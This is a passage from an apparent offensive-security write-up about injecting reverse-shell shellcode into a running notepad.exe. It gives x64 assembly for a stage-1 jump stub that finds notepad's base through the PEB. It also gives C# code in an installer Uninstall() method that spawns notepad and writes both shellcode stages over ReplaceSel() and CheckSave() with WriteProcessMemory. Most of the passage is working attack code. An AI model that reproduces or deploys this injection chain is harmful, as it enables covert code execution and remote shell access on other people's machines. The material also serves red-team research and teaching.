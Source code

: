 <br/>
<hr/>

# Enter Stage 2
At this point I could have tried to find a function besides `ReplaceSel()` that was long enough to take the entire shellcode without clobbering the function behind it, but it felt easier to just split it into two stages because I liked the way it could be triggered through the Replace dialog. Instead of placing the shellcode in `ReplaceSel()`, I found another function (`CheckSave()`) that was long enough to store the entire reverse shell shellcode.

Now, when `ReplaceSel()` is called, its only job is to calculate the address of `CheckSave()` and do an unconditional `jmp` to that address, where the full shellcode would run.

Using IDA, I found the offset of `CheckSave()` to be `0x3690` from the base address of notepad, so the custom "stage 1" shellcode was:

```asm
    xor   eax, eax                              # zero rax
    mov   rax, gs:[rax+0x60]                    # PEB into rax
    mov   rax, qword ptr [rax+0x10]             # ImageBaseAddress into rax
    add   rax, 0x3690                           # offset to CheckSave()
    jmp   rax                                   # jmp to CheckSave()
```

<br/>
<hr/>

# Almost There
After updating `Uninstall()` to use two stages, the final C# code was:

```csharp
public override void Uninstall(IDictionary savedState)
{
    byte[] Stage1 = File.ReadAllBytes("c:\\temp\\stage1.bin");
    byte[] Stage2 = File.ReadAllBytes("c:\\temp\\stage2.bin");

    // Spawn notepad.exe
    Process p = new Process();
    p.StartInfo.FileName = "c:\\windows\\system32\\notepad.exe";
    p.StartInfo.CreateNoWindow = false;
    p.Start();

    // Get the base address of notepad.exe
    IntPtr NotepadBase = p.MainModule.BaseAddress;

    // Open a handle to the process with appropriate permissions
    // (PROCESS_VM_OPERATION | PROCESS_VM_WRITE) == 0x28
    IntPtr hProcess = OpenProcess(0x28, 0, (uint)p.Id);

    bool ret = false;
    int lpNumberOfBytesWritten = 0;

    // Stage1: Address of ReplaceSel()
    IntPtr ReplaceSel = NotepadBase + 0x157a8;
    ret = WriteProcessMemory(hProcess, ReplaceSel, Stage1, Stage1.Length, out lpNumberOfBytesWritten);

    // Stage2: Address of CheckSave()
    IntPtr CheckSave = NotepadBase + 0x3690;
    ret = WriteProcessMemory(hProcess, CheckSave, Stage2, Stage2.Length, out lpNumberOfBytesWritten);

    // Spin here until notepad.exe exits
    WaitForSingleObject(hProcess, 0xffffffff);
```